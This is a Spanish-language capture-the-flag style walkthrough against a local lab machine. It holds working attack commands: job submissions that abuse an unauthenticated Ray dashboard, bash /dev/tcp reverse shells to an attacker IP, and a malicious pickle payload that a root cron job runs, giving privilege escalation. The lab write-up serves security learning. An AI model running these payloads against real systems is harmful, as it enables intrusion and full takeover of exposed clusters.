## Flujo típico de recon (en orden)

```
1. ping           → host vivo
2. nmap -p-       → puertos abiertos
3. nmap -sCV      → versiones + scripts
4. whatweb        → stack web (solo si hay HTTP)
5. curl -I        → headers de cada HTTP
6. ffuf / gobuster → dirs ocultos en cada HTTP
7. redis-cli INFO / mongo / etc → services no-web
8. searchsploit   → CVE de las versiones exactas
9. gobuster vhost → virtual hosts si hay dominio
```

---

## Recon.md

````markdown
---
tags: [recon]
---

# Recon

## 1. Host vivo

```bash
ping -c 1 TARGET
```
````



TTL 64 = Linux, 128 = Windows.

## 2. Puertos abiertos (full TCP)

```bash
nmap -p- --min-rate 5000 -n -oG ScanALL TARGET
extractPorts ScanALL
```



Rápido, sin DNS, guarda grepable. `extractPorts` copia la lista al clipboard.

## 3. Versiones + scripts default

```bash
nmap -p<PUERTOS> -sCV -oN ScanPorts TARGET
```


`-sC` scripts + `-sV` versión. Acá salen CVEs.

## 4. Análisis de la Interfaz Web (Puerto 80)



Ingresamos a `http://172.17.0.3/` y observamos el dashboard del nodo. No hay login, pero la página filtra información crítica de la infraestructura:

- Expone que el panel del clúster (Ray) corre en el puerto **8265** y está **sin autenticación**.
- Revela la ruta del staging de artefactos: `/srv/deeplab/models`.
- Menciona un servicio de control que valida artefactos cada 60s.

## 5. Fuzzing de Directorios (Descubrimiento)



Como la página principal no da más vectores de ataque directo, lanzamos un escaneo de directorios con `dirb` para encontrar rutas ocultas:

```bash
dirb http://172.17.0.3/ /usr/share/dirb/wordlists/common.txt
```

**Hallazgo:** Encontramos el endpoint `http://172.17.0.3/docs` (Status 200).

## 6. Análisis de la Documentación (Information Disclosure)



Entramos a `/docs` y el sistema nos confiesa su arquitectura interna. Este texto es la **llave de la Kill Chain**:

- Los artefactos se guardan en formato **Pickle** (`.pkl`).
- La convención de nombres es `model_<nombre>.pkl`.
- Un **cron ejecutado como ROOT** revisa el directorio cada minuto, carga el archivo (deserializa el Pickle) y lo mueve.
- El usuario `ray` tiene permisos de escritura en esa carpeta.

**Conclusión:** Si logramos ejecutar código como `ray` (vía el panel del puerto 8265), podemos dejar un Pickle malicioso en `/srv/deeplab/models/`. El cron de root lo ejecutará en menos de 60 segundos dándonos control total.

## 7. Verificación del Vector (Ray API)

Confirmamos que el puerto 8265 responde sin pedir credenciales (CVE-2023-48022):

```bash
curl -s http://172.17.0.3:8265/api/version
```


_(El JSON de respuesta confirma que el dashboard está expuesto)._

## 8. Test Rápido (RCE Directo vía Ray)

El panel de Ray (CVE-2023-48022) permite ejecutar comandos directamente en el `entrypoint` del Job sin necesidad de generar un payload Pickle. Esto sirve para confirmar el RCE al instante.

Primero, levanta un servidor HTTP en tu Kali para escuchar la petición:

```bash
python3 -m http.server 80
```

Luego, envía el Job a Ray para que ejecute un `curl` hacia tu máquina:

```bash
# OJO: Asegúrate de no dejar espacios en la URL y usar tu IP real (ej. 192.168.100.27)
curl -X POST http://172.17.0.3:8265/api/jobs/ \
  -H "Content-Type: application/json" \
  -d '{"entrypoint":"curl http://192.168.100.27/pwned","submission_id":"test03"}'
```



PODEMOS VER QUE EFECTIVAMENTE SE CARGO EL CURL Y RECIBIMOS UNA PETICION A NUESTRO SERVIDOR



## 9. Obtención de Shell (Usuario `ray`)

Ya que confirmamos que Ray ejecuta comandos, lanzamos una reverse shell directa.
En tu Kali, nos ponemos en escucha:

```bash
nc -lvnp 4444
```

En otra terminal, disparamos el Job con una reverse shell:

```bash
curl -X POST http://172.17.0.3:8265/api/jobs/ \
  -H "Content-Type: application/json" \
  -d '{"entrypoint":"bash -c \"bash -i >& /dev/tcp/192.168.100.27/4444 0>&1\"","submission_id":"shell_ray"}'
```

Si revisas tu listener de `nc`, tendrás una shell como el usuario `ray`.



## 10. Escalada de Privilegios (Root vía Cron + Pickle)

El objetivo final es inyectar un archivo malicioso en el staging `/srv/deeplab/models/` para que el cron de root lo ejecute.
Generamos un archivo Pickle que ejecutará una reverse shell (puedes usar la misma shell del paso 9 o una nueva):

```python
python3 -c '
import pickle, os, base64
class E:
    def __reduce__(self):
        return (os.system, ("bash -c \"bash -i >& /dev/tcp/192.168.100.27/4444 0>&1\"",))
print(base64.b64encode(pickle.dumps(E())).decode())
' > pkl.b64
```

Nos ponemos en escucha para recibir al usuario root (si usaste el mismo puerto, cierra la anterior primero):

```bash
nc -lvnp 4444
```

Inyectamos el payload usando Ray (como en el Paso 8), respetando la convención de nombres `model_<nombre>.pkl`:

```bash
PKL=$(cat pkl.b64)
curl -X POST http://172.17.0.3:8265/api/jobs/ \
  -H "Content-Type: application/json" \
  -d "{\"entrypoint\":\"echo $PKL | base64 -d > /srv/deeplab/models/model_exploit.pkl\",\"submission_id\":\"pwn01\"}"
```

**Ejecución Root:**
Verificamos que el archivo se haya creado revisando los logs del job:

```bash
curl -s http://172.17.0.3:8265/api/jobs/pwn01/logs
```

Esperamos máximo 60 segundos (el ciclo del cron). Nuestra terminal de `nc` recibirá la conexión. Al ejecutar `id`, veremos el premio mayor:

```bash
# uid=0(root) gid=0(root) groups=0(root)
```



```

```
